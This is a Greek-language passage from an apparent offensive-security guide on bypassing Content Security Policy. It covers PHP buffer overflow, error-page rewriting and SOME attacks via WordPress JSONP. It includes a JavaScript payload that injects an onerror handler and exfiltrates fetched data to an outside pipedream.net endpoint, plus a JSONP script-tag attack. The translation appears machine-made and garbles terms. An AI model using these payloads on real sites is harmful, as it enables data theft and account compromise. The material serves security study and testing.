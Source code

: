 **Τελευταίες Ανακοινώσεις**\
Μείνετε ενήμεροι με τις νεότερες ανακοινώσεις για νέες αμοιβές ευρημάτων και κρίσιμες ενημερώσεις πλατφόρμας

**Συμμετέχετε μαζί μας** [**στο Discord**](https://discord.com/invite/N3FrSbmwdy) και αρχίστε να συνεργάζεστε με κορυφαίους χάκερ σήμερα!

## Μη Ασφαλείς Τεχνολογίες για Παράκαμψη του CSP

### Υπερφόρτωση απάντησης PHP buffer

Το PHP είναι γνωστό για την **υπερφόρτωση της απάντησης σε 4096** bytes από προεπιλογή. Επομένως, αν το PHP εμφανίζει προειδοποίηση, παρέχοντας **αρκετά δεδομένα μέσα στις προειδοποιήσεις**, η **απάντηση** θα **σταλεί** **πριν από** το **κεφαλίδα CSP**, προκαλώντας την αγνόηση της κεφαλίδας.\
Στη συνέχεια, η τεχνική αποτελείται βασικά από το **γέμισμα του buffer απάντησης με προειδοποιήσεις** ώστε η κεφαλίδα CSP να μην σταλεί.

Ιδέα από [**αυτό το writeup**](https://hackmd.io/@terjanq/justCTF2020-writeups#Baby-CSP-web-6-solves-406-points).

### Αναδιατύπωση Σελίδας Σφάλματος

Από [**αυτό το writeup**](https://blog.ssrf.kr/69) φαίνεται ότι ήταν δυνατό να παρακαμφθεί η προστασία CSP φορτώνοντας μια σελίδα σφάλματος (πιθανώς χωρίς CSP) και αναδιατυπώνοντας το περιεχόμενό της.
```javascript
a = window.open('/' + 'x'.repeat(4100));
setTimeout(function() {
a.document.body.innerHTML = `<img src=x onerror="fetch('https://filesharing.m0lec.one/upload/ffffffffffffffffffffffffffffffff').then(x=>x.text()).then(x=>fetch('https://enllwt2ugqrt.x.pipedream.net/'+x))">`;
}, 1000);
```
### ΚΑΠΟΙΟ + 'self' + wordpress

ΤΟ ΚΑΠΟΙΟ είναι μια τεχνική που καταχράζεται ένα XSS (ή πολύ περιορισμένο XSS) **σε ένα σημείο έναρξης μιας σελίδας** για να **καταχραστεί** **άλλα σημεία έναρξης της ίδιας προέλευσης.** Αυτό επιτυγχάνεται φορτώνοντας το ευάλωτο σημείο έναρξης από μια σελίδα επιτιθέμενου και στη συνέχεια ανανεώνοντας τη σελίδα επιτιθέμενου στο πραγματικό σημείο έναρξης στην ίδια προέλευση που θέλετε να καταχραστείτε. Με αυτόν τον τρόπο το **ευάλωτο σημείο έναρξης** μπορεί να χρησιμοποιήσει το αντικείμενο **`opener`** στο **φορτωμένο στοιχείο** για να **έχει πρόσβαση στο DOM** του **πραγματικού σημείου έναρξης που θέλετε να καταχραστείτε**. Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../xss-cross-site-scripting/some-same-origin-method-execution.md" %}
[some-same-origin-method-execution.md](../xss-cross-site-scripting/some-same-origin-method-execution.md)
{% endcontent-ref %}

Επιπλέον, το **wordpress** έχει ένα **JSONP** σημείο έναρξης στο `/wp-json/wp/v2/users/1?_jsonp=data` που θα **αντανακλά** τα **δεδομένα** που στάλθηκαν στην έξοδο (με τον περιορισμό μόνο γραμμάτων, αριθμών και τελείες).

Ένας επιτιθέμενος μπορεί να καταχραστεί αυτό το σημείο έναρξης για να **προκαλέσει μια επίθεση ΚΑΠΟΙΟ** εναντίον του WordPress και να την **ενσωματώσει** μέσα στο `<script s`rc=`/wp-json/wp/v2/users/1?_jsonp=some_attack></script>` σημειώστε ότι αυτό το **σενάριο** θα **φορτωθεί** επειδή είναι **επιτρεπόμενο από το 'self'**. Επιπλέον, και επειδή το WordPress είναι εγκατεστημένο, ένας επιτιθέμενος μπορεί να καταχραστεί την **επίθεση ΚΑΠΟΙΟ** μέσω του **ευάλωτου σημείου έναρξης κλήσης** που **παρακάμπτει το CSP** για να δώσει περισσότερα προνόμια σε έναν χρήστη, να εγκαταστήσει ένα νέο πρόσθετο...\
Για περισσότερες πληροφορίες σχετικά με το πώς να εκτελέσετε αυτήν την επίθεση ελέγξτε [https://octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution/](https://octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution/)
